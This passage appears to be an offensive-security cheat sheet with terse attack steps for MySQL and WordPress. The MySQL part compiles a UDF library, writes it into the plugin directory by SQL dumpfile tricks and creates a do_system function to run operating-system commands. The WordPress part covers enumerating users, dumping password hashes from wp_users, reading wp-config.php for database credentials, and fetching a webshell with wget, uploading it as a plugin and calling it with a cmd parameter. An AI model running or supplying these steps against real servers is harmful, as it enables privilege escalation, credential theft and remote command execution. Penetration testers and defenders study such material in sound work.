 -----

### MySQL

- User-Defined Function (UDF) Dynamic Library
    - `SHOW VARIABLES LIKE 'plugin_dir';`
        - Check plugin dir
    - Compile
        - `gcc -g -c raptor_udf2.c -fPIC`
        - `gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`
    - Write File Method (1)
        - `use mysql;`
        - `create table hack(line blob);`
        - `insert into hack values(load_file('/tmp/lib_sys_udf.so'));`
            - File From https://github.com/zinzloun/MySQL-UDF-PrivEsc (https://www.exploit-db.com/exploits/1518)
        - `select * from hack into dumpfile '/{plugin_dir}/lib_sys_udf.so';`
    - Write File Method (2)
        - `xxd -p -c 9999999 lib_sys_udf.so`
        - `SET @SHELL=0x{.....}`
        - `SHOW VARIABLES LIKE 'plugin_dir';`
        - `SELECT BINARY @SHELL INTO DUMPFILE '{PLUGIN_DIR}/meow.so';`
    - `create function do_system returns integer soname 'lib_sys_udf.so';`
    - `select do_system("{command}");`
        - Not show return

-----

### CMS

#### Wordpress

* Enumerate User
  - `http://{IP}/index.php/?author=1`
* 404.php Path
  - `/wp-content/themes/<theme name>/404.php`
* Plugins Path
  - `/wp-content/plugins/{plugin_name}`
* Password DB
  - `SELECT concat(user_login,":",user_pass) FROM wp_users;`
* Config file (DB pass)
  - `wp-config.php`
* Plugin Webshell
```
wget https://raw.githubusercontent.com/jckhmr/simpletools/master/wonderfulwebshell/wonderfulwebshell.php
zip wonderfulwebshell.zip wonderfulwebshell.php
```
Upload and enable.
`http://{IP}/wp-content/plugins/wonderfulwebshell/wonderfulwebshell.php?cmd={command}`

-----

